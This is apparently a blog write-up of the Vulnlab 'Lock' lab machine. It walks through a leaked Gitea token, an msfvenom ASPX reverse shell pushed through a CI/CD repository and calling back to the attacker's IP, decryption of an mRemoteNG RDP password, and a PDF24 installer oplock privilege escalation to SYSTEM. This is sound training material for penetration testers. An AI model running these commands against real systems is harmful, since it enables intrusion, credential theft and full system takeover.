







[Home](/) | [Writeups](/writeups/) 

22\. January 2024

# Vulnlab: Lock

<br>

**Table of Contents**

1\. [Introduction](#introduction)<br>
2\. [Reconnaissance](#reconnaissance)<br>
&emsp;2\.1 [Nmap](#nmap)<br>
&emsp;2\.2 [Web site on port 80](#web-site-on-port-80)<br>
&emsp;2\.3 [Gitea on port 3000](#gitea-on-port-3000)<br>
3\. [Gitea](#gitea)<br>
&emsp;3\.1 [Enumerating ellen.freeman's repositories](#enumerating-ellenfreemans-repositories)<br>
&emsp;3\.2 [Pushing reverse shell to the web server](#pushing-reverse-shell-to-the-web-server)<br>
4\. [Getting foothold](#getting-foothold)<br>
5\. [Getting user](#getting-user)<br>
&emsp;5\.1 [Looking at file system](#looking-at-file-system)<br>
&emsp;5\.2 [Decrypting mRemoteNG config file](#decrypting-mremoteng-config-file)<br>
&emsp;5\.3 [Logging to RDP as Gale.Dekarios](#logging-to-rdp-as-galedekarios)<br>
6\. [Getting SYSTEM](#getting-system)<br>
&emsp;6\.1 [Prerequisites](#prerequisites)<br>
&emsp;6\.2 [Exploiting PDF24](#exploiting-pdf24)<br>
&emsp;&emsp;6\.2\.1 [Step 1](#step-1)<br>
&emsp;&emsp;6\.2\.2 [Step 2](#step-2)<br>
&emsp;&emsp;6\.2\.3 [Step 3](#step-3)<br>
&emsp;&emsp;6\.2\.4 [Step 4](#step-4)<br>
7\. [Final thoughts](#final-thoughts)<br>

<br>

## Introduction

Hello everyone! After taking a short break for my uni exams I am back with a new post. This time we will take a look at `Lock` from [Vulnlab](https://www.vulnlab.com/). Lock is an easy machine starting with `Gitea` access tokens and some CI/CD exploitation for getting a foothold onto the box. For user we will have to decrypt `mRemoteNG` RDP configuration file to get a user's password and RDP into the machine. For root we will exploit a vulnerability in PDF24 that will allow us SYSTEM level access after setting opportunistic lock on a file the PDF24 repair process tries to write to.

I really enjoyed this box. In fact, I must say it's my favorite easy box on Vulnlab so far. I really appreciate that the steps we have to take are based on a real life engagement. Without further ado, let's take a look at it.



## Reconnaissance

### Nmap

As with every machine, let's start with an Nmap scan. I use my own Rust wrapper which you can find [here](https://github.com/qur1us/rustmap). Let's look at the results.

```
Nmap scan report for 10.10.71.234
Host is up (0.037s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Lock - Index
| http-methods:
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=7cfcbdd6f22f02cf; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=mnsiwiSSLahnhJ1AY-__MsIKS_I6MTcwNTg3MDgyODE4NjA2OTIwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 21 Jan 2024 21:00:28 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjU
|   HTTPOptions:
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=242a568da6bc4732; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=edxOuv3yqj9yYzCl5lj-Fvbt_hc6MTcwNTg3MDgzMzQwMjA3NjAwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 21 Jan 2024 21:00:33 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2023-12-27T14:19:36
|_Not valid after:  2024-06-27T14:19:36
| rdp-ntlm-info:
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2024-01-21T21:01:50+00:00
|_ssl-date: 2024-01-21T21:02:29+00:00; -1s from scanner time.
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
.
.
.
Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time:
|   date: 2024-01-21T21:01:51
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
```

### Web site on port 80


There is a web site running on port 80. From responses in Burp Suite we can observe that the web site is powered by `ASP.NET` running on `Microsoft IIS`. Enumerating the web site did not yield much results, however, from the page contents we may expect to meet some PDF related software further along the way.

### Gitea on port 3000



Next we have port 3000. There's a `Gitea` instance running here and we can even find a public repository called `dev_scripts` owned by user `ellen.freeman`. Let's take a closer look at it.



The script is basically used for fetching information about repositories. What is interesting is that it's using a `Gitea` authorization token from an environment variable.

```
personal_access_token = os.getenv('GITEA_ACCESS_TOKEN')
```

What I always like to do when I'm looking at `Gitea` or other git-based solutions are past commits. There's a chance that authors may have left some sensitive information in previous commits since the repository might have been private at the time. Especially as we can see that there some action with `GITEA_ACCESS_TOKEN` going on.



There's indeed a hardcoded `Gitea` token in the previous commit. That's excellent! If the token is still valid, we may gain access to other private repositories and make further progress.

## Gitea

### Enumerating ellen.freeman's repositories

Let's try to use the token we found earlier. What we want to do is to enumerate the user's repositories. As the script we found in `dev_scripts` repository suggests, we can use the `api/v1/user/repos` endpoint to fetch information about available repositories. For this one we can user `curl` and specify the authorization header. When successful, this provides a big JSON response. Let's make it a bit easier to read and parse the output with `jq`.

```
curl -H 'Authorization: token <REDACTED>' http://10.10.71.234:3000/api/v1/user/repos | jq
.
.
.
},
    "name": "website",
    "full_name": "ellen.freeman/website",
    "description": "",
    "empty": false,
    "private": true,
    "fork": false,
    "template": false,
    "parent": null,
    "mirror": false,
    "size": 7370,
    "language": "CSS",
    "languages_url": "http://localhost:3000/api/v1/repos/ellen.freeman/website/languages",
    "html_url": "http://localhost:3000/ellen.freeman/website",
    "url": "http://localhost:3000/api/v1/repos/ellen.freeman/website",
    "link": "",
    "ssh_url": "ellen.freeman@localhost:ellen.freeman/website.git",
    "clone_url": "http://localhost:3000/ellen.freeman/website.git",
.
.
.
```

There indeed is one private repository called `website`. We may assume that it's the repository of the web site running on port 80. To examine this repository, we have to clone it. What's interesting, is that `Gitea` kindly allows us to use access tokens as passwords. This way we can authenticate to the `Gitea` as ellen.freeman and clone the repository to our machine.

```
➜  lock git clone http://ellen.freeman:<REDACTED>@10.10.71.234:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 1.50 MiB/s, done.
Resolving deltas: 100% (35/35), done.
```

Let's take a closer look on this repository.

```
➜  website git:(main) ls -l
total 28
drwxr-xr-x 6 qurius qurius  4096 Jan 21 21:35 assets
-rw-r--r-- 1 qurius qurius    43 Jan 21 21:35 changelog.txt
-rw-r--r-- 1 qurius qurius 15708 Jan 21 21:35 index.html
-rw-r--r-- 1 qurius qurius   130 Jan 21 21:35 readme.md
```

By the contents of the `index.html` file in the repository, we can confirm that this indeed is the repository of the web site running on port 80. Let's look at some other files in the repository. Let's take look at `readme.md` first.

```
➜  website git:(main) cat readme.md
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserve
```

This is interesting. This would mean that if we add a file to this repository, create commit and push with the access token we found earlier, we could upload a web shell. That's exactly what we are going to do.

### Pushing reverse shell to the web server

As you may recall from the reconnaissance phase, we discovered that the web site is running on `ASP.NET`. That means that we can create a malicious `.aspx` file and get code execution that way. We can generate such reverse shell file with `msfvenom`.

```
➜  website git:(main) ✗ msfvenom --platform windows --arch x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.109 LPORT=443 -f aspx -o shell.aspx
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3404 bytes
Saved as: shell.aspx
```

With reverse shell inside the git repository, we can push it to `Gitea` and it will get deployed to the web server. First we have to "git add" the `shell.aspx` file, then commit and push. Additionally, we can specify the user and email so the commit would blend in a bit more in the git log.

```
➜  website git:(main) ✗ git config --global user.name ellen.freeman
➜  website git:(main) ✗ git config --global user.email ellen.freeman@lock.vl
➜  website git:(main) ✗ git add shell.aspx
➜  website git:(main) ✗ git commit -m "Update"
[main 13d3506] Update
 1 file changed, 45 insertions(+)
 create mode 100644 shell.aspx
➜  website git:(main) git push
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 1.41 KiB | 1.41 MiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.10.71.234:3000/ellen.freeman/website.git
   73cdcc1..13d3506  main -> main
```

## Getting foothold

As mentioned in the `readme.md` file, by pushing the reverse shell file to the repository, the change should be deployed right away to the web server. Let's try to access the file with `curl` and see if we get a reverse shell back.

```
curl http://10.10.71.234/shell.aspx
```

```
➜  lock rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.0.109] from (UNKNOWN) [10.10.71.234] 50820
Microsoft Windows [Version 10.0.20348.2159]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
lock\ellen.freeman

c:\windows\system32\inetsrv>
```

Great, we have a foothold as ellen.freeman! However, there is no user flag. Let's do some post exploitation work.

## Getting user

### Looking at file system

Let's take a look at file system. There are some git-related files in the ellen.freeman's home folder, but those do not lead us to anything we already do not know or own. Let's take a look at user's documents.

```
C:\Users\ellen.freeman\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A03D-9CEF

 Directory of C:\Users\ellen.freeman\Documents

12/28/2023  05:59 AM    <DIR>          .
12/28/2023  11:36 AM    <DIR>          ..
12/28/2023  05:59 AM             3,341 config.xml
               1 File(s)          3,341 bytes
               2 Dir(s)   5,588,455,424 bytes free
```

There is some interesting `config.xml` file. Let's take a closer look.

```
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

By looking at the file we can see that it is a sort of RDP connection configuration file for user `Gale.Dekarios`. There is a password field, however the password is encrypted with `AES-GCM`. Let's do some research on what we can do with this.

### Decrypting mRemoteNG config file

After some time googling I discovered that the config file is used by a remote connection software called `mRemoteNG`. After some more research I found out that there is a way to decrypt the password in the config file. I stumbled upon [this](https://github.com/gquere/mRemoteNG_password_decrypt) repository that allows us to decrypt the password from the config file.

The script basically takes the config file and password (optional) as arguments and outputs decrypted password. We do not have any password, but the script still works. This is possible, because the password in the config file we found was encrypted by a default password which is hardcoded in the script. After running the script we get another set of credentials.

```
➜  mRemoteNG_password_decrypt git:(master) python3 mremoteng_decrypt.py ../config.xml
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: <REDACTED>
```

### Logging to RDP as Gale.Dekarios

As we saw from the Nmap scan, the port 3389 is open and we can RDP into the box as `Gale.Dekarios`.

```
xfreerdp /u:Gale.Dekarios /p:<REDACTED> /v:10.10.71.234 /size:1280x720
```



This was successful and we can finally read the user flag.

## Getting SYSTEM

After connecting via RDP, we can see some shortcuts to software installed on the machine. One of these is `PDF24`. If we recall back the the reconnaissance phase, the web site we saw already mentioned some PDF software. Let's try to find some public vulnerabilities for `PDF24`.

Almost right away I stumbled on [this](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/) article from SEC Consult. The article does a great job on explaining the vulnerability and necessary steps to reproduce. Let's jump into it.

### Prerequisites

The exploit has a couple of prerequisites. For the exploit to work, the PDF24 has to be installed via a MSI installer. The installer itself is also necessary for the exploit as I is used to start an installation repair process.

By looking around I found something interesting in the `C:\` directory. After searching for hidden files and folders, we can see that there indeed is a hidden folder called `_install`.

```
C:\>dir /a:h
Volume in drive C has no label.                                                                              Volume Serial Number is A03D-9CEF

Directory of C:\

12/28/2023  06:17 AM    <DIR>          $Recycle.Bin
12/27/2023  12:38 PM    <DIR>          $WinREAgent
12/27/2023  06:14 PM    <JUNCTION>     Documents and Settings [C:\Users]
01/21/2024  11:55 AM            12,288 DumpStack.log.tmp
01/21/2024  11:55 AM     1,207,959,552 pagefile.sys
12/28/2023  11:24 AM    <DIR>          ProgramData
12/27/2023  06:14 PM    <DIR>          Recovery
12/27/2023  06:14 PM    <DIR>          System Volume Information
12/28/2023  11:23 AM    <DIR>          _install
			   2 File(s)  1,207,971,840 bytes
			   7 Dir(s)   5,608,247,296 bytes free
```

When we look inside the directory we can see our desired installation file amongst other installation files.

```
C:\_install>dir                                                                                              Volume in drive C has no label.
Volume Serial Number is A03D-9CEF

Directory of C:\_install

12/28/2023  11:21 AM        60,804,608 Firefox Setup 121.0.msi
12/28/2023  05:39 AM        43,593,728 mRemoteNG-Installer-1.76.20.24615.msi
12/14/2023  10:07 AM       462,602,240 pdf24-creator-11.15.1-x64.msi
			   3 File(s)    567,000,576 bytes
			   0 Dir(s)   5,607,112,704 bytes free
```

Another thing we'll need is the `SetOpLock.exe` binary as mentioned in the article. This comes in suite of multiple symbolic link testing utilities and is available in [this](https://github.com/googleprojectzero/symboliclink-testing-tools) GitHub repository.

```
iwr http://10.8.0.109/SetOpLock.exe -o SetOpLock.exe
```

After downloading `SetOpLock.exe` binary to the box, we have everything we need to proceed with the exploitation.

### Exploiting PDF24

#### Step 1

Let's set the oplock so the file gets locked when the repair process wants to write to it.

```
.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
```

#### Step 2

Run the MSI installer to trigger the repair process.

```
msiexec.exe /fa C:\_install\pdf24-creator-11.15.1-x64.msi
```

This can take some time, however at the very end we can see that there's indeed a cmd windows stuck.

#### Step 3

From here we can right click on the stuck window and go to properties. In properties there is a blue highlighted clickable link which will open a web browser after being clicked.



#### Step 4

In the very final step we just have to open a file dialog. We can do that with `Ctrl+O`. When the dialog opens we can type `cmd.exe` to the search bar and hit enter. This will start a new `cmd.exe` process running as SYSTEM.



Great! We are now SYSTEM and can read the root flag.

## Final thoughts

I really enjoyed this machine! Thanks [xct](https://twitter.com/xct_de) and [kozie](https://twitter.com/k0zmer) for creating it. What I liked the most were the real life aspects of machine which is a high quality standard on [Vulnlab](https://www.vulnlab.com/). Looking forward to many more.

If you bared with me to the very end I thank you for reading and I hope you'll have a great day :)